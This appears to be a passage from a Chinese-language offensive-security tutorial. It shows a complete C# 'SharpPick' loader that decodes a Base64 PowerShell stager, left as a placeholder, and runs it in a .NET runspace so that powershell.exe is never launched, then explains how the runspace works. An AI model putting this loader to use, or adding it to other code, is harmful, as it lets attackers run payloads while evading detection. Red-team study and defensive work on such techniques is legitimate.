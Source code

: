 ## - 增强 PowerPick 的规避能力：不使用 powershell 的 powershell  
> PowerPick 能够在不生成 powershell.exe 的情况下执行 PowerShell 脚本，使用.NET 程序集实现更隐蔽的方法。  
  
  
**修改 PowerPick 以实现更隐蔽执行的示例**  
  
在这个示例中，我们演示如何修改 C# .NET 应用程序以通过.NET 程序集加载和执行 PowerShell 代码，并了解其背后的工作原理  
```
using System;using System.Text;using System.Collections.ObjectModel;using System.Management.Automation;using System.Management.Automation.Runspaces;namespaceSharpPick{    classProgram    {        /// <summary>        /// Executes a PowerShell command without launching powershell.exe        /// </summary>        /// <param name="command">The PowerShell script to execute</param>        /// <returns>Output of the PowerShell command as a string</returns>        static string ExecutePowerShellCommand(string command)        {            try            {                // Initialize the Runspace (PowerShell environment)                using (Runspace runspace = RunspaceFactory.CreateRunspace())                {                    runspace.Open();                    RunspaceInvoke scriptInvoker = new RunspaceInvoke(runspace);                    Pipeline pipeline = runspace.CreatePipeline();                    // Add the PowerShell command to the pipeline                    pipeline.Commands.AddScript(command);                    // Add the "Out-String" cmdlet to capture output as a string                    pipeline.Commands.Add("Out-String");                    // Execute the pipeline                    Collection<PSObject> results = pipeline.Invoke();                    // Combine all the results into a single string                    StringBuilder stringBuilder = new StringBuilder();                    foreach (PSObject obj in results)                    {                        stringBuilder.AppendLine(obj.ToString());                    }                    // Return the resulting string, trimmed to remove extra whitespace                    return stringBuilder.ToString().Trim();                }            }            catch (Exception ex)            {                Console.WriteLine($"Error executing PowerShell command: {ex.Message}");                returnstring.Empty;            }        }        static int Main(string[] args)        {            try            {                // Base64-encoded stager                string base64Stager = "Your stages goes here";                // Decode the Base64-encoded stager to a string                string decodedStager = Encoding.Unicode.GetString(Convert.FromBase64String(base64Stager));                // Execute the decoded PowerShell stager and capture the result                string output = ExecutePowerShellCommand(decodedStager);                // Log the result (for debugging purposes)                Console.WriteLine("PowerShell Output: ");                Console.WriteLine(output);                return0;            }            catch (Exception ex)            {                Console.WriteLine($"Error in Main: {ex.Message}");                return1;            }        }    }}
```  
  
**它是如何工作的？**  
- Runspace  
对象通过RunspaceFactory.CreateRunspace()  
创建。这在.NET 运行时中分配一个专用的执行环境，runspace 是一个处理 PowerShell 脚本执行的独立线程  
  
- 在 runspace 内创建Pipeline  
对象，用于处理命令的顺序执行。当你添加一个命令 (如Get-Process  
) 时，它会被编译成中间形式并传递给 pipeline，在那里执行  
  
- 添加到 pipeline 的每个命令都被转换为CommandProcessor  
，将脚本转换为字节码以供执行。这发生在 runspace 内，避免了需要外部进程如powershell.exe  
  
- PowerShell 对象作为.NET 对象 (如PSObject  
) 创建，这些对象由.NET 的垃圾收集器管理，但 PowerShell 的内部内存管理确保它们在 runspace 关闭时被正确处置  
  
## - 劫持和滥用鲜为人知的 CLSID  
  